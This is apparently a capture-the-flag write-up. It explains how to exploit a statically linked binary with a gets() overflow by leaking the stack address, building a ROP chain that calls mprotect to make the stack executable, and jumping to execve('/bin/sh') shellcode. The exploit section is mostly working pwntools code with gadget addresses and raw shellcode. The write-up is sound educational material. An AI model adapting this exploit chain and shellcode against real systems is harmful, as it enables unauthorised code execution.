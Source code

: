 # MPROTECT

## Binary information

Running file on the binary we see that it is statically linked. So compared to the previous task, now we cannot overwrite contents of the GOT table and perform a `ret2libc` attack.

![Statically Linked](images/static.png)

Running checksec on the file reveals that the binary has **NX** enabled, which means we cannot execute shellcode. (yet)

![Checksec](images/checksec.png)

Executing the binary we can see that it asks for input and after that it just exits.

![Binary](images/binary.png)

## Reversing

Decompiling the binary using Ghidra we see that the vulnerability is obvious. The binary reads input in a buffer of size `32` using `gets` function.

![vulnerability](images/vulnerability.png)

Since the binary is `statically linked` we know that there is something to do with it. After looking at the symbols we see that we have the function `mprotect` available.

Mprotect is a system call in Linux that changes the permission of a memory region. We can use this to change the permission of the stack to `executable` and then execute our.

Mprotect takes 3 arguments:

- `addr`: The start address of the memory region whose permissions are to be changed.
- `len`: The length of the memory region whose permissions are to be changed.
- `prot`: The new permissions for the memory region.

One thing to note is that addr must be page aligned. In this case we assume that the page size is 4096 bytes so at least the last 12 bits of the address must be zero.

![mprotect](images/mprotect.png)

## Exploitation

But where is the start address of the page? We do not know where the stack is in memory at runtime. Luckily, the `__libc_stack_end` symbol is included in the binary. This symbol points to the end of the stack. We can use puts to leak this address

By following `x86_64` calling convention, the first argument is passed in `rdi`, the second in `rsi` and the third in `rdx`.

![calling convention](images/callingConvention.png)

So we need to see if we can find the `ROP gadgets` that would help us set these three arguments. Using `ROPgadget` we see that we have the following gadgets:

![ROP gadgets](images/ropGadgets.png)

Let's see what we have so far:

1. We have a buffer overflow vulnerability.
2. We have the `mprotect` function available.
3. We can leak the address of the end of the stack.
4. We can make the stack executable.

Let's see how the exploit looks until here. After printing the leaked address we jump to main again to read another payload.

```python
from pwn import *

io = remote("10.10.101.248", 9010)

stack_end_sym_addr = p64(0x004bfa70)

io.recvuntil(" libc 😏")
io.clean()

payload = b'A' * 40
popRDIAddr = p64(0x40191a) #pop rdi; ret
popRSIAddr = p64(0x40f4de) # pop rsi ; ret
popRDXAddr = p64(0x40181f) # pop rdx ; ret

payload += popRDIAddr
payload += stack_end_sym_addr
payload += p64(0x00411bd0) #puts addr
payload += p64(0x00401e61) #main addr

io.sendline(payload)
endAddrOfStack = u64(io.recvline().strip().ljust(8, b'\x00'))
```

Now we should have the address of the end of the stack. Let's make the stack executable.

```python
pageAddress = endAddrOfStack & 0xffffffffffff0000 # change permission of 0x10000 bytes to be sure we include our payload

io.recvuntil(" libc 😏")
io.clean()

# int mprotect (void * __addr, size_t __len, int __prot)
#                   RDI             RSI         EDX
payload = b'A' * 40

payload += popRDIAddr
payload += p64(pageAddress)

payload += popRSIAddr
payload += p64(0x10000) # length

payload += popRDXAddr
payload += p64(0x7) #permissions RWX

payload += p64(0x00449b70) #mroptect addr
```

After executing the code above, if we look with the debugger we can see that we have the whole stack as `RWX`.

![RWX](images/RWX.png)

Now we can write and execute our shellcode, but how do we modify the IP to point to our shellcode? We can use the the following gadget:

- `0x0000000000463c43 : jmp rsp`

When exiting the `mprotect` function, we pop into RIP the address of the gadget above. Then if the shellcode is right after that address, RSP will point straight to it, because it got incremented during the RET instruction.

For this exploit I have used a simple `execve(/bin/sh)` shellcode from [exploit-db](https://www.exploit-db.com/exploits/47008).

Remotely I had to add an extra ret instruction for stack alignment.

```python
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

jmpRSPAddr = p64(0x463c43) # jmp rsp
payload += jmpRSPAddr
payload += p64(0x00401eac) #ret for movaps allignment
payload += shellcode

io.sendline(payload)
io.interactive()
```
